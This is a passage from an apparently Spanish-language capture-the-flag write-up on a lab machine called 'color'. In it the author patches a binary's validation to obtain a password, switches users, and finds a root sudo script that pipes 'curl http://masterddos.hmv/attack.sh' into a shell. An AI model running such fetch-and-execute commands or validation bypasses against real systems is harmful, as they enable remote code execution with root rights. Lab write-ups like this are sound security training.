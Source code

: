 Escribimos lo mismo que puse para que no haga la validacion si no que siempre piense que esta bien y por ultimo salimos con la siguiente combinacion
**q**  -> **q** -> **enter**

Ahora corremos el programa y nos da la contrasena

```
❯ chmod +x test_4_green 
                                                        
❯ ./test_4_green                         
Guess the number im thinking: 213
Correct!! Here is the pass:
***********as
purpleaslilas 
```

Ahora cambiamos de usuario y obtenemos la primera flag

```
purple@color:~$ cat user.txt
***********:)

purple@color:~$ cat for_purple_only.txt 
As the highest level user I allow you to use the supreme ddos attack script.

purple@color:~$ sudo -l
Matching Defaults entries for purple on color:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User purple may run the following commands on color:
    (root) NOPASSWD: /attack_dir/ddos.sh
```

Vemos de que va ese ddos

```
purple@color:~$ sudo /attack_dir/ddos.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:--  0:00:04 --:--:--     0curl: (6) Could not resolve host: masterddos.hmv

purple@color:~$ cat /attack_dir/ddos.sh 
#!/bin/bash
/usr/bin/curl http://masterddos.hmv/attack.sh | /usr/bin/sh -p
```

Bueno intente escalar privilegios de todos los modos pero no me funciono.

Supongo que nos quedamos como usuarios por ahora jajajas